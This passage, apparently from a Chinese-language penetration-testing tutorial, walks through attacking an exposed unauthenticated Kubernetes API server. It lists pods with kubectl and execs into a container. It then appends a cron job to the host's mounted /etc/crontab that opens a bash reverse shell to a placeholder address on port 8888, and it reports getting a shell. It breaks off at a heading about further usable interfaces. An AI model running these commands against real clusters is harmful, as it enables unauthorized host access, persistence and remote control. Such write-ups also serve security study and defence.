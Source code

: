 ```plain
kubectl -s 192.168.17.144:8080 get pod -n default
```

[![](assets/1698893355-ecac7a3e21e1d2ce3ba786eeba668d1d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165454-2a475030-7314-1.png)  
Step 4：进入容器(由于上面迟迟处于pending状态，也许时内存问题，这里不再过多赘述，直接向下写流程)

```plain
kubectl -s 192.168.17.144:8080 --namespace=default exec -it myapp2 bash
```

```plain
Step 5：写计划任务
```

```plain
echo -e "* * * * * root bash -i >& /dev/tcp/x.x.x.x/8888 0>&1\n" >> /mnt/etc/crontab
```

Step 6：成功获取shell

[![](assets/1698893355-9da6ccad4958d19e01b238a8d5294d07.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165531-40489a4c-7314-1.png)

**接口扩展**  
补充一些可用接口：
